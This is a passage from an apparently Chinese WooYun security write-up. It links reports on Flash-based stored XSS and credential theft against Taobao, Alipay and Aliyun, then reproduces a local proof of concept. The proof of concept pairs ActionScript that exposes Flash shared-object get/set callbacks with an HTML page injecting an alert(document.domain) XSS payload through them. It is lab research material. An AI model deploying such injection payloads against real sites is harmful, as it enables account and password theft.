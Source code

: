[WooYun: 一个flash的0day导致的淘宝网存储xss 【续集】](http://www.wooyun.org/bugs/wooyun-2013-040838)

[WooYun: 一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://www.wooyun.org/bugs/wooyun-2014-051615)

[WooYun: 我是如何实现批量种植rootkit窃取阿里云账号密码的](http://www.wooyun.org/bugs/wooyun-2014-054102)

drops下相关资料：

[一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)

本着学习的原则，本地创建了Flash文件，

```
function setlso(_arg1:String):Boolean{
    var _local2:SharedObject = SharedObject.getLocal("kj");
    _local2.data.key = _arg1;
    _local2.flush();
    return (true);
}

function getlso():String{
    var _local1:SharedObject = SharedObject.getLocal("kj");
    if(_local1.data.key == undefined){
        return ("");
    }
    return (_local1.data.key);
}
ExternalInterface.addCallback("getlso",getlso)
ExternalInterface.addCallback("setlso",setlso)

```

x.html

```
<html>
<head></head>
<body>
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/addCallback_lso.swf">
<param name="movie" value = "http://192.168.4.70/addCallback_lso.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
<script>
function set(){
    document["lso"].setlso('aa\\";alert(document.domain);//aa');
}
function get(){
    document["lso"].getlso();
}

setTimeout("get()",5000)
setTimeout("get()",7000)
</script>
</body>
</html>

```
